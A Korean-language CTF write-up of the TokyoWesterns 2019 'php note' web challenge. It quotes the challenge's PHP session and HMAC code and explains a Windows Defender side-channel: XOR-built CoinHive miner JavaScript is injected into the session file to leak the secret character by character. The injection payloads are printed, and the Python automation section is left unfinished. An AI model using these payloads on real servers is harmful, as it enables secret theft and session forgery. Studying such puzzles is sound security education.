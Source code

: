 # PHP-NOTE

---

## # Intro

이번 문제는 TokyoWesterns CTF 2019에서 나온 web 문제 "php note" 이다.

문제 사이트 링크는 다음과 같다. [http://phpnote.chal.ctf.westerns.tokyo](http://phpnote.chal.ctf.westerns.tokyo)

이 문제의 소스코드를 보기 위해서는 ?page=source 라고 요청을 보내면 php source 를 볼 수 있다.

이 문제의 기능을 간단히 설명하자면, 사용자가 입력한 note를 SESSION에 직렬화하여 저장하고, 작성한 글을 불러 올때는 SESSION에 있는 직렬화된 데이터를 역직렬화하여 웹 페이지에 출력한다.

---

## # Guess

이 문제의 소스코드를 봤을 때 처음 생각이 난 부분은 php serialization vulnerability와 [https://univ-blog.xyz/entry/web-Deadly-bug-code-php](https://univ-blog.xyz/entry/web-Deadly-bug-code-php) 여기에 나와있는 코드와 매우 유사한 부분인 점이다.

php serialization 부분을 찾아봤지만 이번 문제에서는 이용할 만한 취약점은 아니었다. 위 링크에 나와있는 코드와 문제의 일부분 코드가 유사해서 똑같은 방법으로 hash_hmac()에 array를 집어 넣어도 문제를 풀 만한 방향은 아니었다.

어쨋든 이 문제의 최종적인 목표는 isadmin을 1로 바꾸는 것이다. 이를 위해 note 라는 쿠키를 수정해서 보내면 무결성(?) 검사 코드로 인해 실패가 된다.

```php
<?php
function verify($data, $hmac) {
    $secret = $_SESSION['secret'];
    if (empty($secret)) return false;
    return hash_equals(hash_hmac('sha256', $data, $secret), $hmac);
}

/* ... */

$note = verify($_COOKIE['note'], $_COOKIE['hmac'])
        ? unserialize(base64_decode($_COOKIE['note']))
        : new Note(false);
?>
```

hmac 이라는 쿠키와 note라는 쿠키랑 비교하는데 note 값을 수정하면 무결성 검사로 isadmin을 1로 바꿀 수가 없다.
hmac 쿠키 값은 gen_secret($nickname) 함수의 리턴값 $_SESSION['secret'] 을 통해 sha256으로 해쉬 된다. secret 값을 알고 싶지만 session 에 저장되어 유출시킬 방법이 없었다...


그래서 포기...가 아니라 잠시 wrtieup이 올라 올때 까지 존버를 했다.

[https://saarsec.rocks/2019/09/04/twctf-phpnote.html](https://saarsec.rocks/2019/09/04/twctf-phpnote.html) 여기 링크에 php note의 writeup이 올라왔다.!!! 

사지방으로 달려가 흥분을 가라앉히고 천천히 롸업을 봤다.ㅎㅎ

이 이후는 위 링크를 참고하여 작성한 wrire up 이다.

---

## # Information of challenge "php note"

이 문제는 SECRET값과 realname, nickname을 SESSION 에 저장하고 관리한다. 따라서 만약 사용자가 이 사이트에 로그인을 하게 된다면 다음과 같이 SESSION 파일에 저장이 될것이다.

```
realname|s:11:"Hello World";nickname|s:6:"alfink";secret|s:32:"13371337133713371337133713371337";
```


이 문제는 windows 10 서버로 운영되고 있다. Response packet을 통해 알 수 있었다.
```
Response Header

Content-Length: 27171
Content-Type: text/html; charset=UTF-8
Date: Thu, 05 Sep 2019 04:53:10 GMT
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.9
```

기본적으로 windows 10은 Windows Defender가 깔려 있다. Windows Defender는 세션 파일을 포함한 모든 파일을 감시한다. 그래서 만약 세션 파일에 악의적인 스크립가 들어가 있다면, Windows Defender는 이 파일을 탐지하게 되고 로그인에 실패하게 된다. 

예를들어, realname에 ``` var miner = new CoinHive.User(); miner.start() ``` 라고 입력하고 가입을 하게 되면 어떻게 될까? 

Windows Defender 내장에는 javascript Engine이 있어 javascript 코드를 실행 할 수 있다고 한다. 따라서 위 javascript는 coin을 채굴하는 악성 스크립트로 판단하여 세션 파일을 탐지하고 로그인이 실패하게 된다. (실제로 login 입력 값을 악성 스크립트를 넘겼는데, 로그인이 안된다...미친..)

따라서 첫번째 스크립트를 포함해서 로그인을 시도하면 로그인이 되지 않고, 두번재는 그렇지 않았다.

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^40) + 'ive.User();miner.start';
    eval(mal);
</script>
```

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^65) + 'ive.User();miner.start';
    eval(mal);
</script>
```

위 코드를 이용해서 SESSION 값에 접근을 하여 SECRET 값을 유출 시킬 수 있다.

---

## # Approach the SECRET using javascript

SESSION에 javascript를 삽입하여 SESSION에 들어있는 SECRET을 유출시켜 보자.

php note 문제의 소스코드 중 다음과 같은 SESSION에 realname과 nicname, secret을 저장하는 코드가 있다.

```php
if ($action === 'login') {
    if ($method === 'POST') {
        $nickname = (string)$_POST['nickname'];
        $realname = (string)$_POST['realname'];

        if (empty($realname) || strlen($realname) < 8) {
            die('invalid name');
        }

        $_SESSION['realname'] = $realname;
        if (!empty($nickname)) {
            $_SESSION['nickname'] = $nickname;
        }
        $_SESSION['secret'] = gen_secret($nickname);
    }
    redirect('index');
}

```

위 코드의 흐름을 간단히 설명하자면 nickname 값이 없다면 realname, secret 순으로 저장이 된다.

**[nickname 값이 없을때]**

```
SESSION ==> realname|s:8:"universe";secret|s:32:"111111111111111111111111111111111111";
```

이 상태에서 nickname을 포함하여 다시 요청을 보내면 realname과 secret 값은 갱신이 되고 nickname은 SESSION 값의 맨 마지막에 추가가 된다.

**[nickname 값을 추가하여 다시 로그인 요청을 했을 때]**

```
SESSION ==> realname|s:8:"universe";secret|s:32:"111111111111111111111111111111111111";nickname|s:8:"universe";
```

위 SESSNION 값을 잘 보면 secret 값은 realname과 nickname 사이에 있는 것을 볼 수 있다. 

위에서 Windows Defender는 Javascript Engine을 가지고 있어 파일을 분석할때 사용된다고 말했다. 만약 realname 값에 <script>var body = document.body.innerHTML;</script><body>를 nickname 값에 </body> 값을 추가하여 로그인 하면 다음과 같은 SESSION 값을 가질 것이다.

```
SESSION ==> realname|s:67:"universe <script>var body = document.body.innerHTML;</script><body>";secret|s:32:"111111111111111111111111111111111111";nickname|s:15:"universe </body>";
```

그러면 Windows Defender는 위의 세션 파일을 검사하게 될 것이다. 아마도 Javascript Engine도 사용하여 검사를 할 것이다. 즉, 세션 파일에 <script> 태그가 있어 Javascript가 동작을 하게 되어 body 라는 변수에 document.body.innerHTML 값이 저장 된다. body[0]의 값은 ", body[1]의 값은 ;, body[2] 값은 s .... 이런식으로 세션 파일 내에 있는 값에 접근이 가능해 진다. (미쳐따..)
    
자, 우리는 SESSION 값 내에 접근을 할 수 있게 되었다. 하지만 웹 브라우저에 출력이 되는 것도 아니고 body[0]의 값을 들고 올 방법이 없다. 

여기서 Windows Defender의 Javascript Engine을 악용하는 방법을 이용한다. 위에서 설명했듯이 아래 javascript 를 이용하면 Windows Defender에 걸리지 않는다. 

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^65) + 'ive.User();miner.start';
    eval(mal);
</script>
```

위 코드를 일부분만 수정하면 다음과 같다.

```javascript
<script>
    var body = document.body.innerHTML;
    var mal = 'var miner=new Coin';
    var n = body[{offset}].charCodeAt(0);
    mal = mal + String.fromCharCode(n^{char_to_check})+'ive.User();miner.start(';
    eval(mal);
</script><body>
```

offset은 SESSION 값에 하나씩 접근하기 위해 index 값을 늘려주면 되고, 5번째 줄에 n^{char_to_check} 이 부분이 있다. 이것의 의미는 우선 우린 n의 값(body[0])을 모르기 때문에 임의의 문자(char_to_check)와 XOR 연산을 해서 이 값이 'H'가 아닌 다른 값이 된다면

```javascript
?ive.User(); miner.start('
```

값을 가질 것이고, 만약 XOR 연산을 했는데 "H" 가 나온다면

```javascript
Hive.User(); mineer.start('
```

가 되어 ``` var miner = new CoinHive.User(); miner.start( ``` 가 된다. Windows Defender는 이 세션 파일을 malware로 탐지하여 로그인이 되지 않을 것이다. 우리는 이것을 노리는 것이다. 로그인이 되지 않는 순간을 캐치해서 n의 값을 알 수 있게 된다.

여기까지가 SECRET 값에 접근하는 방법을 설명한 것이고 다음은 python코드로 이를 자동화 해보자.


---

## # Leaking the secret using python

작성중...



















